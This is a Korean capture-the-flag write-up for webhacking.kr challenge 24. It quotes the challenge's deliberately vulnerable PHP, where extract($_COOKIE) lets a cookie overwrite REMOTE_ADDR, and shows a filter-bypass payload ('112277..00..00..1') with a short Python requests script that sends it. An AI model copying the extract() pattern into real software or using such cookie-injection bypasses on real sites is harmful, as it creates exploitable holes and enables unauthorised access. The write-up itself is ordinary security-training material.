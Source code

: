 ================================================================================================================
[webhacking.kr] 24
================================================================================================================


.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="REMOTE_ADDR=112277..00..00..1",arrowhead="normal"];
        step3 -> step2[label="@solve",arrowhead="normal"];
    }


|

Source analysis
================================================================================================================

1. 인젝션 취약점이 존재할 수 있는 입력부분을 찾아 인젝션 존재 여부를 확인합니다. 

먼저 접속하면 client ip와 agent 정보를 보여주고 있습니다.

.. image:: ../../_images/web-24_1.png
    :align: center



.. code-block:: html

    <html>
    <head>
    <title>Challenge 24</title>
    </head>
    <body>
    <?

    extract($_SERVER);
    extract($_COOKIE);

    if(!$REMOTE_ADDR) $REMOTE_ADDR=$_SERVER[REMOTE_ADDR];

    $ip=$REMOTE_ADDR;
    $agent=$HTTP_USER_AGENT;


    if($_COOKIE[REMOTE_ADDR])
    {
    $ip=str_replace("12","",$ip);
    $ip=str_replace("7.","",$ip);
    $ip=str_replace("0.","",$ip);
    }

    echo("<table border=1><tr><td>client ip</td><td>$ip</td></tr><tr><td>agent</td><td>$agent</td></tr></table>");

    if($ip=="127.0.0.1")
    {
    @solve();
    }

    else
    {
    echo("<p><hr><center>Wrong IP!</center><hr>");
    }
    ?>
    <!--
    source : index.phps
    -->
    </body>
    </html>

결과적으로 @solve에 도달하려면 127.0.0.1이라는 값이 들어가야합니다.

|

Filtering Bypass
================================================================================================================

소스 내용을 보시면 트릭이 있습니다. str_replace를 통해 입력된 값을 바꿔치기 하는 데 2글자에 대해 바꿔치기를 하는 군요.
그렇다면 여기서 부터는 puzzle 문제 처럼 되네요.

.. code-block:: text

    1122 -> 12
    77.. -> 7.
    00.. -> 0.
    00.. -> 0.
    1 -> 1

cookie값에 다음 값을 붙여서 입력하면 문제 Clear!!

.. code-block:: python

    import requests

    url = "http://webhacking.kr/challenge/bonus/bonus-4/index.php"
    cookies = {"PHPSESSID":"fv2vg5nef63pavpm7s22j7ajh1", "REMOTE_ADDR":"112277..00..00..1"}
    response = requests.get(url, cookies=cookies)
    print response.text

